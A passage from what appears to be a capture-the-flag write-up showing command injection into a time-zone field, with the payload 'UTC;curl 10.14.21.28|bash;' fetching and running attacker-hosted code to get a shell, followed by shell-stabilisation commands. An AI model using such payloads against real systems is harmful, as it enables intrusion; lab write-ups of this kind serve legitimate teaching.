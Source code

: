 ![Pasted image 20250702172303.png](../../IMAGES/Pasted%20image%2020250702172303.png)

Now, we need to host it using a python server and use curl to get the file, once the file downloads, we need to use bash to execute it, we can do all this with the following command:

```
UTC;curl 10.14.21.28|bash;
```

>Note: Make sure to use only ports `80` and `443` because the server is only able to reach us on those ports.

Once we send it, this happens:

![Pasted image 20250702173230.png](../../IMAGES/Pasted%20image%2020250702173230.png)

We get a shell as seen, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


First of all, we need to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250702173353.png](../../IMAGES/Pasted%20image%2020250702173353.png)
